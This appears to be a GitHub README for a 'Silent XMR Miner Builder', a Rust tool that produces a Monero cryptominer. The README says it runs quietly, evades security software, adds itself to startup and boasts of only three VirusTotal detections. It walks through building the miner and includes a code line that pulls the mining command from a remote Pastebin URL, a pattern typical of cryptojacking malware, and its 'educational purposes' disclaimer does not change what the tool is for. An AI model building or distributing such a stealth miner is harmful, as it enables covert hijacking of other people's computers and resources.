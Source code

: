 # Silent XMR Miner Builder

Welcome to the **Silent XMR Miner Builder**! This tool lets you create a silent miner for Monero (XMR), which runs quietly in the background and is designed to avoid detection by security software. The builder allows you to customize and build your own miner executable, which you can configure to mine using your specific xmrig commands.


## Features:
- **Startup**: it adds miner to startup.
- **3 Detection on virus tottal**: [https://www.virustotal.com/gui/file/fe23ce5ded67a1c139300b3068166dccf0bcd8c2350e3b882a4e756473651d57](https://www.virustotal.com/gui/file/fe23ce5ded67a1c139300b3068166dccf0bcd8c2350e3b882a4e756473651d57)
- **Free to Use**: The miner builder is open-source and available at no cost.
- **Custom Configuration**: Users must create their own xmrrig configuration.

## Prerequisites:
To build and run this project, you need to have **Rust** installed.

### Installing Rust:
1. **Download and Install Rust**:
   - Go to the official Rust installation page: [https://www.rust-lang.org/tools/install](https://www.rust-lang.org/tools/install).
   - Follow the instructions for your operating system. Rust can be installed via **rustup**, a tool that helps manage Rust versions and associated tools.
## Verify Installation:

After installation, check that Rust is installed properly by running this command:

```bash
rustc --version
```
You should see something like this:

```bash
rustc 1.65.0 (897e37553 2022-11-02)
```
### Clone the Repository:

First, clone this repository to your local machine using Git and navigate into the project directory.
```bash

git clone https://github.com/yourusername/silent-xmr-miner.git
cd silent-xmr-miner
```

### Create Your Pastebin:

Go to Pastebin and create a new paste with your XMRig mining command. This will include things like the pool address and your wallet address.
Once your paste is created, copy the raw URL.
For example, your URL might look like this:
`https://pastebin.com/raw/yourpastebinid`

### Update the Code:

Open the source code file and replace the URL in the specified line with your own Pastebin link.

```bash
let process_config = client.get("https://pastebin.com/raw/yourpastebinid")
    .send()
    .unwrap()
    .text()
    .unwrap_or_default();
```

### Build the Project:

In the terminal, inside the project directory, run the build command to compile the project in release mode.
```bash
cargo build --release
```

## A Few Important Things to Keep in Mind:

- **Customization**: Make sure your Pastebin contains the correct configuration for XMRig to mine with your pool address and wallet.
- **Be Responsible**: Only use this tool on systems where you have permission to run mining software.

## Disclaimer:

This tool is provided as-is, and it’s for educational purposes only. Please use it responsibly and make sure you have permission to mine on the system you’re using.

